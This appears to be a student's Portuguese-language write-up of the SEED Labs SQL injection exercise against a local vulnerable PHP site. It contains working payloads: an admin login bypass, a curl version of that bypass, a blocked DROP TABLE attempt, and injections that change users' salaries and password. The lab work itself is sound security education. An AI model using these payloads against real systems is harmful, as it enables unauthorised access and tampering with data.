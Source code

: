# SEED Labs - SQL Injection

## Setup

Inicialmente adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executando de seguida os containers fornecidos no lab e abrindo uma shell com acesso direto à base de dados. Utilizamos os seguintes comandos.

`sudo nano etc/hosts`

Em seguida colocamos no final do ficheiro:

`10.9.0.5 www.seed-server.com`

`dcbuild`:docker-compose build

`dcup`:docker-compose up

## Task 1

Começamos por correr o comando  `docker exec -it mysql-10.9.0.6 bash`, para abrir uma shell no container do MySQL. Em seguida usamos `mysql -u root -pdees` para login na base de dados. Para mostrar todas as tabelas dentro da mesma, usamos os seguintes comandos

```sql
use sqllab_users;
show tables;
```

Finalmente para obtermos os dados da Alice corremos `SELECT * FROM credential WHERE name='Alice'`

Resultando em:
![](docs/images/task1.png)

## Task 2

### Task 2.1

Dado o trecho de código no ficheiro `unsafe_home.php`, a vulnerabilidade reside no facto de que as variáveis `input_uname` e `hashed_pwd` são inseridas diretamente na query sem a devida higienização. 

Uma vez que sabemos que o username da conta do administrador é "admin", conseguimos explorar a vulnerabilidade de SQL Injection introduzindo `admin' --` no input do username:

    username: admin' --
    password: (qualquer coisa ou deixar em branco)

O `--` efetivamente transforma o resto da query num comentário, ignorando a verificação da palavra-passe.

Resultando em:
![](docs/image/task2.1.png)

### Task 2.2

Para realizar o mesmo ataque de SQL Injection mas na CLI usamos o comando:

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password='

```

### Task 2.3

Para adicionar uma nova instrução normalmente usariamos um ponto e vírgula ;. No entanto, isto é prevenido como medida de segurança da extensão de PHP _mysqli_, para evitar a execução de múltiplas instruções numa só consulta.

Exemplo de uma tentativa que foi bloqueada por esta contramedida:

    Utilizador: admin'; DROP TABLE credential; --
    Palavra-passe: (qualquer coisa ou deixar em branco)

![](docs/images/task2.3.png)

### Task 3

### Tarefa 3.1
Na página de edição de perfil, inserimos uma injeção SQL no campo `nickname`(mas podia ser qualquer um) usando o comando `', salary=12345678 WHERE name='Alice'; #`.

### Tarefa 3.2
Decidindo punir o nosso chefe utilizámos a página de edição de perfil para reduzir o salário dele, mas desta vez com o comando `', salary = '860' WHERE name='Boby'; #`.

### Tarefa 3.3
Para alterar a password do Boby usámos comando `', password=sha1('construtor') WHERE name='Boby'; #`.

Resultado:
![](docs/images/task3.png)






